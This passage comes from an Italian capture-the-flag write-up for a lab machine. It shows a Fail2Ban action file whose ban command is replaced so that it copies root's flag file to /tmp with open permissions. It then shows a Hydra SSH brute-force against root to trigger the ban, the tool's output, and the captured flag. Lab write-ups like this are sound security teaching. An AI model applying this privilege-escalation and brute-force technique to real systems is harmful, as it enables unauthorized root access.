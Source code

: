 ```
              <iptables> -I <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>

# Option:  actionstop
# Notes.:  command executed once at the end of Fail2Ban
# Values:  CMD
#
actionstop = <iptables> -D <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>
             <actionflush>
             <iptables> -X f2b-<name>

# Option:  actioncheck
# Notes.:  command executed once before each actionban command
# Values:  CMD
#
actioncheck = <iptables> -n -L <chain> | grep -q 'f2b-<name>[ \t]'

# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt

# Option:  actionunban
# Notes.:  command executed when unbanning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionunban = <iptables> -D f2b-<name> -s <ip> -j <blocktype>

[Init]
```

L'idea è quella di farci bannare così che l'azione corrispondente sia quella che abbiamo inserito.

Per far ciò utilizziamo *hydra* per cercare di fare il login a ssh con password false:

```shell
─$ hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://10.10.11.166
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-09 10:24:41
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1009 login tries (l:1/p:1009), ~64 tries per task
[DATA] attacking ssh://10.10.11.166:22/
[STATUS] 133.00 tries/min, 133 tries in 00:01h, 881 to do in 00:07h, 16 active
```

Dopo che siamo stati bannati, in */tmp* abbiamo la root flag: `e0437cf969b1e0f58e630b66f5142253`